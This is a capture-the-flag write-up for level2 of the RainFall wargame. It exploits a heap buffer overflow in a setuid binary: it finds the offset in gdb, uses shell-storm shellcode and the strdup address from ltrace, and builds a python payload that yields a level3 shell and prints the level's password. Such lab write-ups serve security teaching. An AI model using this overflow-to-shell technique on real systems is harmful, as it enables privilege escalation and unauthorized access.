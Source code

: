 level2
======

*	We spawn with a [level2](source/level2) executable
	```console
	level2@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
	level2@RainFall:~$ ./level2 
	test
	test
	```
*	Let's take a look at the code
	```console
	root@DESKTOP-69N2SL4:~# scp -P 4242 level2@192.168.29.4:~/level2 .
	root@DESKTOP-69N2SL4:~/42/Ghub/Rainfall/level2/source# ./getFunctions.sh 
	Executable files in the current directory:
	[1] ./level2
	Enter the number of the executable file you want to analyze: 1
	```
*	My script created the [disas.s](source/disas.s) file which will make understanding this code a bit easier. We can see the main function calls the `p` one. This function uses `gets` which we now know is notorious for causing buffer overflow vulnerabilities. We can also see `strdup` and `printf`
*	But of course it won't happen again so this time it seems that there is `cmp` to make sure we don't overwrite the return address
	```assembly
	and    $0xb0000000,%eax
	cmp    $0xb0000000,%eax
	```
	Basically, it restrict anything that starts with `0xb` to make sure we don't use the stack
*	We are in luck since this program also uses `strdup` (which is also known for buffer overflow attacks). We might be able to use the heap !
	```assembly
	call   80483e0 <strdup@plt>
	```
*	Ok first, let's find the offset 
	```gdb
	(gdb) r
	Starting program: /home/user/level2/level2 
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

	Program received signal SIGSEGV, Segmentation fault.
	0x37634136 in ?? ()
	```
	I am using the same [website](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) than level1 and the offset is `80`
*	We also need a shell code to launch `/bin/sh` and we can find one [here](http://shell-storm.org/shellcode/index.html)
*	The one we are looking for is [this one](http://shell-storm.org/shellcode/files/shellcode-575.html).
*	Unlike stack-based buffer overflows, where the return address is typically located nearby the buffer being overflowed, in heap-based overflows, the return address might not be directly overwritten. So we have to find the return address
	```console
	level2@RainFall:~$ ltrace ./level2 
	__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
	fflush(0xb7fd1a20)                                               = 0
	gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)                    = 0xbffff6fc
	puts("")                                                         = 1
	strdup("")                                                       = 0x0804a008
	+++ exited (status 8) +++
	```
*	Let's see what we need to put in our exploit:
	*	shellcode : 21 bytes
	*	return address : 4 bytes (`\x08\xa0\x04\x08` little endian rule)
	*	data left to fill : 80 - 21 = 59 bytes
*	We should have all we need to exploit the program:
	```console
	python -c 'print "shellcode" + "q" * 59 + "\x08\xa0\x04\x08"' > /tmp/payload
	level2@RainFall:~$ cat /tmp/payload - | ./level2 
	j
	X�Rh//shh/bin��1�̀qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq�
	whoami
	level3
	cat /home/user/level3/.pass
	492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
	```
	I replaced `shellcode` to make it more readable